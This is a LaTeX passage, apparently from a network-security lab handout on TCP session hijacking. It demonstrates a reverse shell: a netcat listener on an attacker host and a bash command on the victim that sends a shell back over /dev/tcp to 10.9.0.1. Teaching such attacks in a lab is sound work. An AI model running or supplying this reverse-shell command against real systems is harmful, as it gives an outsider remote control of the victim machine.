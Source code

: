 In the following, we will show how we can set up a reverse shell if we can
directly run a command on the victim machine (i.e. the server machine). 
In the TCP session hijacking attack, attackers cannot directly run a
command on the victim machine, so their jobs is to run a reverse-shell
command through the session hijacking attack. 
In this task, students need to demonstrate that they can achieve this goal.


To have a \texttt{bash} shell on a remote machine connect back to the attacker's machine, the
attacker needs a process waiting for some connection on a given port. In this example, we will
use \texttt{netcat}. This program allows us to specify a port
number and can listen for a connection on that port.
In the following demo, we show two windows, each one is from a 
different machine. The top window is the attack machine \texttt{10.9.0.1},  
which runs \texttt{netcat}~(\texttt{nc} for short), listening on port \texttt{9090}. 
The bottom window is the victim machine \texttt{10.9.0.5}, and 
we type the reverse shell command.
As soon as the reverse shell gets executed, the top window indicates 
that we get a shell. This is a reverse shell, i.e., it runs on \texttt{10.9.0.5}.  

\begin{minipage}{\linewidth}
\begin{lstlisting}[backgroundcolor=]
           +---------------------------------------------------+ 
           | (*@\textbf{On 10.9.0.1 (attcker)}@*)                             |
           |                                                   | 
           | $ nc -lnv 9090                                    |  
           | Listening on 0.0.0.0 9090                         |  
           | Connection received on 10.9.0.5 49382             |  
           | $   <--+ (*@\textbf{This shell runs on 10.9.0.5}@*)              | 
           |                                                   |  
           +---------------------------------------------------+  
          
           +---------------------------------------------------+  
           | (*@\textbf{On 10.9.0.5 (victim)}@*)                              |
           |                                                   | 
           |$ /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1  | 
           |                                                   | 
           +---------------------------------------------------+
\end{lstlisting}
\end{minipage}

